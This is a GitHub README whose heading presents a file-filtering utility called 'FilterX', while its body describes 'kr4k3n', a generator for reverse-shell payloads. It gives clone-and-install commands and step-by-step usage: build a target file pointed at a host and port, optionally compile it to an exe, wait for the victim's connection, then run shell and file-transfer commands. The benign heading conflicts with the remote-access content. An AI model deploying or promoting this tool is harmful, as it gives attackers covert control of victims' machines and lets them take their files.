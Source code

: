 # FilterX
Filter your files by format in Directory!

![output_HyoIRD](https://user-images.githubusercontent.com/56045160/115148905-8cbc7480-a02f-11eb-8ac2-238ce3457d1f.gif)

## How it works
```
Using this tool you can easily and fast generate target file that will give you many features. 
Firstly, you can have access to target shell. 
Secondly, you can make file transfers between your and target machines. 
Thirdly, you can make directory movements.
```
## Features
- Reverse Shell
- File Transfer
- Directory Movement

## Installation:

One line installation:
```
$ git clone https://github.com/YanOScompany/kr4k3n.git && cd kr4k3n && chmod 755 install.sh && ./install.sh
```

Simple and quick installation:
```
$ git clone https://github.com/YanOScompany/kr4k3n.git
$ cd kr4k3n
$ chmod 755 install.sh && ./install.sh
```

## Usage:

[Video Tutorial](https://www.youtube.com/watch?v=b4WSImA3avQ)

Example usage:
```

1. Generate file | python2 Generate.py 127.0.0.1 8888 or to compile to exe add --compile (make sure that you have install pyinstaller)
2. Start kr4k3n and wait until your target connection. Example | python2 kr4k3n.py 127.0.0.1 8888
3. Use commands. Example | ls, ifconfig or kraken-get 11.png, kraken-push 11.png (for see all commands type kraken-help)
```
##My Instagram: @k4sh1r1nkut0 

